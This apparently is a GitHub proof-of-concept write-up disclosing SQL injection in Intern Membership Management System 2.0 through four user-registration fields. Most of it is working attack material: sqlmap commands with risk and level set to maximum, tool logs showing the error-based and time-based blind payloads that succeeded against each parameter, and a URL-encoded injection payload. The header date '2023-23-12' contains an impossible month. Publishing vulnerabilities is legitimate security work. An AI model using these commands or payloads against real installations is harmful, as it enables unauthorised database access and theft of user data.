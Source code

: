 # Intern_Membership_Management_System-SQL-Injection
+ **Exploit Title:** Intern_Membership_Management_System-SQL-Injection
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/intern-membership-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/INTERN_MEMBERSHIP_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.5, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Intern Membership Management System 2.0 allows SQL Injection via parameters 'userName', 'firstName', 'lastName', and 'gender' in "/intern/user_registration/".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the user registration page: "http://localhost/intern/user_registration/"
+ Fill the form and click 'Register' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'userName', 'firstName', 'lastName', and 'gender' parameters to dump the database. 
+ `python sqlmap.py -r r.txt -p userName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
[23:08:01] [INFO] parsing HTTP request from 'r.txt'
[23:08:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: userName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test'||(SELECT 0x41516658 WHERE 5902=5902 AND (SELECT 6279 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(6279=6279,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test'||(SELECT 0x4b4f7742 WHERE 6652=6652 AND (SELECT 1818 FROM (SELECT(SLEEP(5)))EDSH))||'&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:08:03] [INFO] testing MySQL
[23:08:03] [INFO] confirming MySQL
[23:08:03] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.5, Apache 2.4.53
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[23:08:03] [INFO] fetching current database
[23:08:03] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p firstName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
[23:10:30] [INFO] parsing HTTP request from 'r.txt'
[23:10:32] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: firstName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test'||(SELECT 0x72666763 WHERE 6198=6198 AND (SELECT 3585 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(3585=3585,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test'||(SELECT 0x4c58726c WHERE 5649=5649 AND (SELECT 7272 FROM (SELECT(SLEEP(5)))edvW))||'&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:10:32] [INFO] testing MySQL
[23:10:33] [INFO] confirming MySQL
[23:10:33] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.5
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[23:10:33] [INFO] fetching current database
[23:10:33] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p lastName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
---
Parameter: lastName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test&lastName=test'||(SELECT 0x75425548 WHERE 3456=3456 AND (SELECT 4050 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(4050=4050,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test&lastName=test'||(SELECT 0x49745477 WHERE 1875=1875 AND (SELECT 8777 FROM (SELECT(SLEEP(5)))cVgI))||'&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:13:41] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.5
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:13:41] [INFO] fetching current database
[23:13:41] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p gender --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
---
Parameter: gender (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male'||(SELECT 0x73574b73 WHERE 9608=9608 AND (SELECT 9046 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(9046=9046,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male'||(SELECT 0x67657950 WHERE 3206=3206 AND (SELECT 2290 FROM (SELECT(SLEEP(5)))OKGZ))||'&terms=on&register-user=Register
---
[23:17:12] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.5, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:17:12] [INFO] fetching current database
[23:17:12] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ current database: `db_issm`
![1_sqlmap](https://github.com/h4md153v63n/CVEs/assets/5091265/ab492034-196a-4f84-b0d0-3fbbbc25ae87)


+ Example payload:
```
-1%27+and+6%3d3+or+1%3d1%2b(SELECT+1+and+ROW(1%2c1)%3e(SELECT+COUNT(*)%2cCONCAT(CHAR(95)%2cCHAR(33)%2cCHAR(64)%2cCHAR(52)%2cCHAR(100)%2cCHAR(105)%2cCHAR(108)%2cCHAR(101)%2cCHAR(109)%2cCHAR(109)%2cCHAR(97)%2c0x3a%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.COLLATIONS+GROUP+BY+x)a)%2b%27
```
![1_burp](https://github.com/h4md153v63n/CVEs/assets/5091265/910b1684-ab8a-4da2-874f-ff75c38eb727)
